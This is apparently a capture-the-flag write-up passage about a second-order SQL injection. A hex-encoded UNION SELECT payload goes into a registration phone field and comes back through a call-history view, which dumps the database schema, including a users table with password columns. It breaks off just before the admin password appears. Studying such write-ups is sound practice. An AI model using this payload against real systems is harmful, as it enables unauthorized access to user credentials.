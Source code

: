     guest ~ $ REGISTER
    Please fill the informations below :
    
    Login : d
    Firstname : d
    Lastname : d
    Contact (DESK PHONE) : 0x3120554e494f4e2053454c454354207461626c655f736368656d612c7461626c655f6e616d652c636f6c756d6e5f6e616d652c6e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73
    Password : zenk
    Encrypting using 128x(ROT13) ......HAAAAAAAAX......
    Password encryption done ! (Security First) !
    
    d ~ $ HISTORY
    RAPTOR CALL REPORTING
    - CLIENT INFO :
    
    +-----------+-----------------------------------------------------------------------------------------+
    |  USERNAME |                                            d                                            |
    |   RIGHTS  |                                           user                                          |
    | DESKPHONE | 1 UNION SELECT table_schema,table_name,column_name,null FROM information_schema.columns |
    +-----------+-----------------------------------------------------------------------------------------+
    
     - CALL HISTORY
    
    +--------------------+---------------------------------------+----------------------------------+----------+
    |         ID         |                  DATE                 |           DESTINATION            | DURATION |
    +--------------------+---------------------------------------+----------------------------------+----------+
    | information_schema |             CHARACTER_SETS            |        CHARACTER_SET_NAME        |   None   |
    | [...]              |             [...]                     |        [...]                     |   None   |
    |    x_8816665166    |                 users                 |                id                |   None   |
    |    x_8816665166    |                 users                 |            firstname             |   None   |
    |    x_8816665166    |                 users                 |               name               |   None   |
    |    x_8816665166    |                 users                 |             contact              |   None   |
    |    x_8816665166    |                 users                 |             password             |   None   |
    |    x_8816665166    |                 users                 |              login               |   None   |
    |    x_8816665166    |                 users                 |              rights              |   None   |
    +--------------------+---------------------------------------+----------------------------------+----------+

We get the admin password:
